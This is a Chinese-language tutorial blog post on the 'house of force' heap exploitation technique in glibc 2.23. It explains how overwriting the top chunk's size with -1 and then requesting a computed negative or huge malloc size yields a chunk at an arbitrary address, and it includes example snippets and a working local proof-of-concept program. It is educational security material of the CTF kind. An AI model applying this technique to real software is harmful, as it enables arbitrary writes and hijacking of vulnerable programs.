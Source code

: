```yaml
---
layout: post
title: house of force：控制top chunk的size来malloc任意值
category: system/Heap
date: 2023-9-23 21:04:32
---
```

Heap基础知识
<!-- more -->
[toc]
# house of force

一句话描述该漏洞，在`glibc 2.23`下，通过控制`top chunk`的`size`域为一个特别大的值，导致可以通过`malloc`特别大的值或者负数来将`top chunk`的指针指向任意位置。

你需要进行控制的：

- `top chunk`的`size`域
- 你需要可以`malloc`一个特别大的值
- 你需要可以多次`malloc`

**公式**：

```c
request_size = new_top_chunk_addr - old_top_chunk_addr - 0x10;

// 其中request_size为malloc的大小
// new_top_chunk_addr是申请后top chunk会处于的位置
// old_top_chunk_addr是申请前top chunk会处于的位置
```

**原理：**

在`glibc 2.23`中，对于`top chunk`的检查仅仅只有`(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)`。

那么，若我们将`top chunk`的`size`修改为一个特别大的值，甚至是`-1`（由于是无符号数在进行判断，那么`-1`是最大的数），那么便可以申请任意大小的`chunk`。源码如下：

```c
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

这里用`wiki`的例子，由于堆是低地址到高地址增长，那么可以申请负数地址来申请到更低的地址（例如`malloc@got.plt`）：

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

也可以通过申请特别大的值来申请到高地址，例如`__malloc_hook`（在`libc`里面）

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```

笔者通过一小段代码在`glibc2.23`中实现了`house of force`：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    long fake_chunk[0x110]; // 最终要是申请到了这里，那就说明攻击成功
    printf("the addr of fake_chunk is %p.\n", fake_chunk);

    long *a = malloc(0x100);                     // 如此一来，chunk a的下一个chunk将会是top chunk
    long *top_chunk = (long *)((long)a + 0x100); // top_chunk在a偏移0x100的地方
    top_chunk[1] = -1; // 将top chunk的大小修改为无限大

    long diff = (long)&fake_chunk[0] - (long)top_chunk; // 计算fake_chunk和top chunk此时相差的距离
    malloc(diff - 0x10);                                // malloc这个距离大小-0x10的chunk就是申请一个大小等于这个距离的，使得top chunk减小这个距离

    long *b = malloc(0x100);                                // 随便申请一个chunk
    printf("the addr of new malloc chunk is %p.\n", b - 2); // 发现申请到的chunk的地址就是fake

    return 0;
}
```
